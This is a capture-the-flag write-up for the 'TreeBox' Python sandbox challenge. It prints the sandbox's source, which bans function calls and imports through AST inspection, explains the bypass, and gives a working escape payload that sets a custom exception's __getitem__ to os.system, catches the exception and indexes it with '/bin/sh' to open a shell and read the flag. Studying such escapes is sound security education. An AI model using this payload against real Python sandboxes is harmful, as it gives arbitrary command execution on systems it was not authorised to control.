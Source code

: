 # TreeBox

## Challenge Description
**Category**: Sandbox

**Description**: I think I finally got Python sandboxing right.

The challenge was a pyjail-style sandbox, that needed to "escaped" from - regain the ability to execute arbitrary code (and read the flag file) given a VERY restrictive environment. As usual with pyjails, the source code was provided:

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

## Code Evaluation
Looking at the source code, the program checks the input code before executing it - only if the code is labeled 'safe' by ```verify_secure```,
that uses the ```ast``` library (**A**bstract **S**yntax **T**rees) to parse the input.

Essentially, both functions calls and import statements are banned, because they match either of ```ast.Call, ast.Import, ast.ImportFrom```

Note: The program uses structured pattern matching, so we know that it is running on Python 3.10+

## Thought Process

While imports can be avoided, function calls are a fundemental part of any programming language.
At first glance, the objective of reading the flag without calling any function seems impossible.

This means that the challenge must be solved by:
1. Somehow managing to read the flag file without using calls or import statements (unlikely)
2. Figuring out a way to fool ```ast``` by calling functions indirectly, so it won't notice the function calls made by the program

As far as we know, it's impossible to access the file system or the shell without invoking any functions, so we tried to change the angle of thinking about this challenge to the second way.

We needed to find the 'trickable' part of the program, as a chain is only as strong as its weakest link.
A few options come to mind:
1. Python's match-case
2. ast parser

We didn't believe Python's match-case to be the weak part, as that would be a fatal flaw in Python itself, and probably not the intention of the challenge authors anyway (even though it is *possible*, see Python2's ```input()``` RCE vulnerability).

That leaves tricking the ast parser by calling functions indirectly (without invoking them using parentheses).

## Dunder Methods To the Rescue!

One way to achieve indirect function calls, is dunder (double underscore) methods. These are functions that help creating classes in Python, and are normally used in order to make contructors, overload operators change the behavior of Python built-in functions on the classe's objects, and more.

## Constructing a Solution Payload
At first, this doesn't seem to be of much help - to create an object (and invoke ```__init__``` or another dunder method).
After putting some thought into it, we came to realize that exceptions are classes too! A quick check reveals that it is possible to raise exceptions without any arguments.
Meaning:

```raise Exception``` is allowed, but ```raise Exception("Can I pass an argument?")``` would match to ```ast.Call```.

Knowing all of this, we can create (and raise) a custom exception (a class that inherits from ```Exception```), catch the exception
and get access to the exception object, already equipped with the dunder method we created.

So our theoretical payload would look something like this:
```python
class CustomException(Exception):
  pass # TODO: add a dunder method to use when handling the exception
  
 try:
   raise CustomException
 except CustomException as e:
   pass # TODO: use the exception object (e)
```

At this point, there are several approaches to what dunder method to use to inderectly call a function. One of the most common ones is to overload one of the operators, for example, the plus operator (+) using the ```__add__``` method.

We chose to use ```__getitem__```.
```__getitem__``` is the function that is being called when looking for a value that matches a key in a dictionary.

For instance, in the following code snippet, ```__getitem__``` is called to retrieve the value matching the key 'a':
```python
d = {'a': 1, 'b': 2}
d['a']
```
By overriding ```__getitem__``` in our custom exception with another function, we can get ANY function to execute with one argument - whatever we put in the square brackets as a 'key'.

Since the ```os``` module is loaded into the running namespace, we can override ```__getitem__``` with os.system and thus execute any shell command.

This brings us to the final attack payload:
```python
class CustomException(Exception):
	__getitem__ = os.system

try:
	raise CustomException
except CustomException as e:
	e["/bin/sh"]
--END
```
Which will end up executing: ```os.system("/bin/sh")```, providing us an unlimited shell.
```bash
$ cat flag
CTF{CzeresniaTopolaForsycja}
```

**P.S.** This challenge is probably the only time we were *delighted* to see an exception, instead of being frustrated :)

